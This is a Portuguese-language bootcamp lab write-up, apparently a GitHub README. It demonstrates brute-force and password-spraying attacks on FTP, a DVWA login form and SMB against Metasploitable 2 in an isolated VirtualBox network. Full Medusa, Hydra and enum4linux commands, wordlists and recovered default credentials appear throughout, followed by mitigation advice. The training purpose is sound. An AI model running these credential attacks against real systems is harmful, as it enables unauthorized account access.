





# 🔐 Brute Force com Medusa e Kali Linux — Laboratório de Segurança Ofensiva

> Projeto prático desenvolvido como parte do bootcamp de Cibersegurança da DIO.  
> Simulação de ataques de força bruta em ambiente controlado utilizando Kali Linux, Medusa, Hydra e Metasploitable 2.

---

## 📋 Índice

- [Sobre o Projeto](#sobre-o-projeto)
- [Ambiente de Laboratório](#ambiente-de-laboratório)
- [Ferramentas Utilizadas](#ferramentas-utilizadas)
- [Wordlists](#wordlists)
- [Ataque 1 — Força Bruta em FTP](#ataque-1--força-bruta-em-ftp)
- [Ataque 2 — Formulário Web (DVWA)](#ataque-2--formulário-web-dvwa)
- [Ataque 3 — Password Spraying em SMB](#ataque-3--password-spraying-em-smb)
- [Resumo dos Resultados](#resumo-dos-resultados)
- [Medidas de Mitigação](#medidas-de-mitigação)
- [Conclusão e Aprendizados](#conclusão-e-aprendizados)

---

## Sobre o Projeto

Este projeto tem como objetivo demonstrar, de forma prática e em ambiente 100% controlado, como ataques de força bruta funcionam contra diferentes tipos de serviços. Foram simulados três cenários distintos:

1. **Força bruta em FTP** — testando credenciais contra o serviço vsftpd do Metasploitable 2
2. **Ataque a formulário web** — automatizando tentativas de login no DVWA (Damn Vulnerable Web Application)
3. **Password spraying em SMB** — testando uma senha comum contra múltiplos usuários enumerados via enum4linux

Além dos ataques, o projeto documenta os comandos utilizados, os resultados obtidos e, principalmente, as **medidas de mitigação** que organizações devem adotar para se proteger contra esse tipo de ameaça.

> ⚠️ **Aviso Legal:** Todos os testes foram realizados exclusivamente em ambiente isolado (rede host-only no VirtualBox), contra máquinas virtuais propositalmente vulneráveis. A realização de ataques de força bruta contra sistemas sem autorização é crime. Este projeto tem finalidade **estritamente educacional**.

---

## Ambiente de Laboratório

### Arquitetura

```
┌─────────────────────────────────────────────┐
│              VirtualBox Host-Only            │
│                 192.168.56.0/24              │
│                                              │
│  ┌──────────────────┐  ┌──────────────────┐  │
│  │   Kali Linux     │  │  Metasploitable 2│  │
│  │  192.168.56.102  │  │  192.168.56.101  │  │
│  │   (Atacante)     │  │     (Alvo)       │  │
│  └──────────────────┘  └──────────────────┘  │
└─────────────────────────────────────────────┘
```

### Configuração das VMs

| VM | Sistema Operacional | IP | Função |
|---|---|---|---|
| Kali Linux | Kali Linux Rolling | 192.168.56.102 | Atacante |
| Metasploitable 2 | Ubuntu 8.04 LTS | 192.168.56.101 | Alvo vulnerável |

- **Hypervisor:** VirtualBox
- **Tipo de rede:** Host-Only (isolada, sem acesso à internet)
- **Motivo do isolamento:** garantir que os ataques não vazem para redes externas

### Descoberta de Hosts

Antes de iniciar os ataques, foi feito um scan de descoberta para identificar os hosts ativos na rede:

```bash
nmap -sn 192.168.56.0/24
```

**Output:**
```
Nmap scan report for 192.168.56.1   → Gateway VirtualBox
Nmap scan report for 192.168.56.100 → VM sem portas abertas
Nmap scan report for 192.168.56.101 → Metasploitable 2 ✅
Nmap scan report for 192.168.56.102 → Kali Linux (atacante)
```

### Enumeração de Serviços (Nmap)

Com o IP do alvo identificado, foi realizado um scan detalhado de serviços:

```bash
nmap -sV 192.168.56.101
```

**Principais serviços encontrados:**

| Porta | Serviço | Versão |
|---|---|---|
| 21/tcp | FTP | vsftpd 2.3.4 |
| 22/tcp | SSH | OpenSSH 4.7p1 |
| 80/tcp | HTTP | Apache 2.2.8 |
| 139/tcp | NetBIOS | Samba 3.X–4.X |
| 445/tcp | SMB | Samba 3.X–4.X |
| 3306/tcp | MySQL | 5.0.51a |
| 5432/tcp | PostgreSQL | 8.3.0–8.3.7 |

> O Metasploitable 2 expõe intencionalmente dezenas de serviços vulneráveis — ideal para fins de estudo.

---

## Ferramentas Utilizadas

| Ferramenta | Versão | Finalidade |
|---|---|---|
| Kali Linux | Rolling | Sistema operacional do atacante |
| Nmap | 7.98 | Descoberta de hosts e enumeração de serviços |
| Medusa | 2.3 | Ferramenta principal de brute force |
| Hydra | 9.6 | Brute force em formulários web HTTP |
| enum4linux | 0.9.1 | Enumeração de usuários via SMB/Samba |

### Por que Medusa?

O Medusa é uma ferramenta de brute force paralela e modular, suportando protocolos como FTP, SSH, SMB, HTTP, MySQL, entre outros. Sua principal vantagem é a velocidade: ele testa múltiplas credenciais simultaneamente por meio de threads.

**Sintaxe básica:**
```bash
medusa -h <host> -U <wordlist_usuarios> -P <wordlist_senhas> -M <modulo> -t <threads>
```

| Parâmetro | Descrição |
|---|---|
| `-h` | IP do alvo |
| `-U` | Arquivo com lista de usuários |
| `-P` | Arquivo com lista de senhas |
| `-M` | Módulo do protocolo (ftp, smbnt, http...) |
| `-t` | Número de threads paralelas |
| `-p` | Senha única (usado no password spraying) |

---

## Wordlists

Para os testes, foram criadas wordlists simples e direcionadas ao ambiente Metasploitable:

### `users.txt`
```
admin
root
user
ftpuser
msfadmin
service
```

### `passwords.txt`
```
123456
password
admin
toor
msfadmin
root
1234
pass
```

### `smb-users.txt` (criada após enumeração)
```
msfadmin
user
root
service
postgres
```

> Em cenários reais, wordlists mais robustas como `rockyou.txt` (disponível em `/usr/share/wordlists/` no Kali) são utilizadas. Para este laboratório, wordlists pequenas foram suficientes para demonstrar o conceito.

---

## Ataque 1 — Força Bruta em FTP

### Contexto

O protocolo FTP (File Transfer Protocol) transmite credenciais em texto plano e, quando mal configurado, é um vetor clássico de ataque. O Metasploitable 2 roda o **vsftpd 2.3.4** na porta 21, que aceita autenticação por usuário e senha.

### Execução

```bash
medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp -t 3
```

### Como funciona

O Medusa testa sistematicamente cada combinação usuário/senha da wordlist contra o serviço FTP. Com `-t 3`, são usadas 3 threads paralelas para acelerar o processo sem sobrecarregar a VM alvo.

### Resultado

```
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```

A credencial `msfadmin:msfadmin` foi encontrada — usuário com a mesma senha, padrão comum em sistemas mal configurados.

### Validação do Acesso

Para confirmar que a credencial é válida, foi realizado login manual:

```bash
ftp 192.168.56.101
# Name: msfadmin
# Password: msfadmin
```

**Output:**
```
230 Login successful.
Remote system type is UNIX.
ftp> ls
drwxr-xr-x  6 1000  1000  4096 Apr 28  2010 vulnerable
```

✅ Acesso confirmado. O diretório `vulnerable` foi listado com sucesso.

### Evidência



---

## Ataque 2 — Formulário Web (DVWA)

### Contexto

O DVWA (Damn Vulnerable Web Application) é uma aplicação web propositalmente vulnerável, usada para treinar técnicas de ataque e defesa. Ele já vem pré-instalado no Metasploitable 2 e pode ser acessado via `http://192.168.56.101/dvwa`.

Formulários de login web são alvos comuns de brute force — basta automatizar requisições HTTP POST com diferentes combinações de credenciais.

### Preparação

1. Acessar `http://192.168.56.101/dvwa/setup.php` e clicar em **"Create / Reset Database"**
2. Fazer login com `admin:password`
3. Em **DVWA Security**, definir o nível como **Low**

### Tentativa com Medusa (e o problema encontrado)

```bash
medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M http \
  -m "FORM:/dvwa/login.php:username=&password=&Login=Login:Login failed" -t 3
```

**Problema identificado:**
```
WARNING: Invalid method: FORM.
```

O módulo HTTP do Medusa retornou `WARNING: Invalid method: FORM`, indicando que a sintaxe do módulo não suportou corretamente a validação do formulário. Como consequência, foram gerados **falsos positivos** — o Medusa reportou sucesso para todos os usuários com a senha `123456`, o que não é real.

> 📌 **Lição aprendida:** Nem toda ferramenta se adapta bem a todos os cenários. Identificar limitações das ferramentas e saber alternar entre elas é uma habilidade fundamental em segurança ofensiva.

### Solução: Hydra

O Hydra possui suporte nativo e robusto para formulários HTTP POST, sendo mais adequado para este cenário:

```bash
hydra -l admin -P passwords.txt 192.168.56.101 \
  http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V
```

| Parâmetro | Descrição |
|---|---|
| `-l admin` | Usuário fixo a ser testado |
| `-P passwords.txt` | Wordlist de senhas |
| `http-post-form` | Módulo para formulários POST |
| `^USER^` e `^PASS^` | Marcadores substituídos em cada tentativa |
| `Login failed` | String que indica falha — se aparecer na resposta, a tentativa foi incorreta |

### Resultado

```
[80][http-post-form] host: 192.168.56.101   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```

✅ Credencial `admin:password` encontrada — a senha padrão do DVWA.

### Evidências




---

## Ataque 3 — Password Spraying em SMB

### Contexto

O SMB (Server Message Block) é um protocolo de compartilhamento de arquivos e recursos em rede. O Metasploitable 2 roda o **Samba** nas portas 139 e 445.

**Password Spraying** é uma variação do brute force onde, ao invés de testar muitas senhas para um usuário, testa-se **uma única senha contra muitos usuários**. Essa técnica é eficaz para contornar políticas de bloqueio de conta, que geralmente travam após N tentativas para o mesmo usuário.

### Etapa 1 — Enumeração de Usuários com enum4linux

Antes do ataque, foi feita a enumeração dos usuários reais do sistema via protocolo SMB:

```bash
enum4linux -U 192.168.56.101
```

O enum4linux se conecta ao Samba usando sessão nula (sem autenticação) e lista os usuários registrados no sistema. O Metasploitable 2, por ser propositalmente vulnerável, permite esse tipo de acesso anônimo.

**Usuários relevantes encontrados:**

```
user:[msfadmin]   rid:[0xbb8]
user:[user]       rid:[0xbba]
user:[root]       rid:[0x3e8]
user:[service]    rid:[0xbbc]
user:[postgres]   rid:[0x4c0]
user:[ftp]        rid:[0x4be]
... (34 usuários no total)
```

### Etapa 2 — Password Spraying

Com a lista de usuários em mãos, foi testada a senha `msfadmin` contra todos eles:

```bash
medusa -h 192.168.56.101 -U smb-users.txt -p msfadmin -M smbnt -t 3 | tee smb-results.txt
```

O `-p` (minúsculo) define uma senha única — característica do password spraying.

### Resultado

```bash
grep "ACCOUNT FOUND" smb-results.txt
```

```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```

✅ Credencial `msfadmin:msfadmin` encontrada, com acesso ao compartilhamento administrativo `ADMIN$`.

> ⚠️ `ADMIN$ - Access Allowed` indica que o usuário possui **privilégios administrativos** no SMB. Em um ambiente real, isso significaria controle total sobre o sistema via rede.

### Evidências





---

## Resumo dos Resultados

| # | Serviço | Ferramenta | Técnica | Credencial Encontrada | Resultado |
|---|---|---|---|---|---|
| 1 | FTP (porta 21) | Medusa | Força bruta | `msfadmin:msfadmin` | ✅ Login bem-sucedido |
| 2 | HTTP/DVWA (porta 80) | Hydra | Força bruta em form | `admin:password` | ✅ Login bem-sucedido |
| 3 | SMB (porta 445) | Medusa | Password spraying | `msfadmin:msfadmin` | ✅ Acesso ADMIN$ |

---

## Medidas de Mitigação

A seguir estão as principais contramedidas para cada vetor explorado neste laboratório. Estas recomendações são aplicáveis em ambientes reais de produção.

### 🔒 Contra Força Bruta em Geral

**Política de bloqueio de conta (Account Lockout)**
- Bloquear temporariamente a conta após 3–5 tentativas falhas consecutivas
- Implementar tempo de espera progressivo entre tentativas (1s, 5s, 30s...)

**Autenticação Multi-Fator (MFA)**
- Mesmo que a senha seja descoberta, o atacante não consegue acesso sem o segundo fator
- Implementar em todos os serviços críticos

**Senhas fortes e únicas**
- Nunca usar `usuario == senha` (como `msfadmin:msfadmin`)
- Exigir senhas com no mínimo 12 caracteres, incluindo letras, números e símbolos
- Utilizar gerenciadores de senha

**Monitoramento e alertas**
- Configurar alertas para múltiplas tentativas de login falhas em curto período
- Analisar logs de autenticação regularmente (SIEM, Splunk, Wazuh...)

### 🔒 FTP

- **Desativar o FTP** sempre que possível — preferir SFTP (SSH File Transfer Protocol) ou FTPS
- FTP transmite credenciais em texto plano, visíveis por qualquer sniffer na rede
- Se o FTP for obrigatório, restringir por IP (firewall) e desativar acesso anônimo

### 🔒 Aplicações Web (formulários de login)

- **CAPTCHA** em formulários de login para dificultar automação
- **Rate limiting** — limitar requisições de login por IP (ex: máximo 5 tentativas por minuto)
- Implementar **WAF (Web Application Firewall)** para detectar padrões de brute force
- Não expor mensagens de erro que diferenciem "usuário inválido" de "senha inválida" (evita enumeração de usuários)

### 🔒 SMB

- **Desativar sessões nulas** no Samba — impede a enumeração de usuários sem autenticação
  ```bash
  # smb.conf
  restrict anonymous = 2
  ```
- **Desativar o SMBv1** — versão antiga e vulnerável, não deve estar habilitada
- Restringir o SMB por firewall — bloquear portas 139 e 445 externamente
- Nunca expor SMB diretamente à internet

### 🔒 Princípio do Menor Privilégio

- Usuários de serviço (FTP, postgres, etc.) não devem ter acesso administrativo
- O acesso `ADMIN$` via SMB encontrado neste lab é um exemplo claro de privilégio excessivo

---

## Conclusão e Aprendizados

Este laboratório demonstrou na prática como ataques de força bruta e password spraying funcionam, e por que senhas fracas ou padrão representam um risco crítico de segurança.

**Principais aprendizados:**

- O Medusa é eficiente para FTP e SMB, mas pode apresentar limitações com módulos HTTP dependendo da aplicação
- O Hydra é mais adequado para ataques a formulários web, com suporte robusto ao módulo `http-post-form`
- A enumeração de usuários via enum4linux em um Samba mal configurado é trivial — e fornece informações valiosas para ataques subsequentes
- Identificar falsos positivos (como os gerados pelo Medusa no DVWA) é uma habilidade importante — resultados de ferramentas sempre devem ser validados
- A mitigação mais eficaz combina: senhas fortes + MFA + monitoramento de logs + princípio do menor privilégio

**Ferramentas do Blue Team para detectar esses ataques:**
- **Fail2ban** — bloqueia IPs automaticamente após N falhas de autenticação
- **Wazuh / OSSEC** — SIEM open source para correlação de eventos de segurança
- **Suricata / Snort** — IDS/IPS para detectar padrões de brute force em rede

---

## Estrutura do Repositório

```
📁 brute-force-medusa-lab/
├── README.md
├── wordlists/
│   ├── users.txt
│   ├── passwords.txt
│   └── smb-users.txt
└── images/
    ├── nmap-scan.png
    ├── ftp-attack.png
    ├── dvwa-medusa.png
    ├── dvwa-hydra.png
    ├── smb-enum4linux.png
    ├── smb-attack.png
    └── smb-grep.png
```

---

## Referências

- [Kali Linux — Site Oficial](https://www.kali.org/)
- [DVWA — Damn Vulnerable Web Application](https://dvwa.co.uk/)
- [Medusa — Documentação](http://foofus.net/?page_id=51)
- [Nmap — Manual Oficial](https://nmap.org/book/man.html)
- [Hydra — GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [enum4linux — Portcullis Labs](https://labs.portcullis.co.uk/application/enum4linux/)

---

*Projeto desenvolvido para o bootcamp de Cibersegurança da [DIO](https://www.dio.me/) — Blue Team / SOC Track*
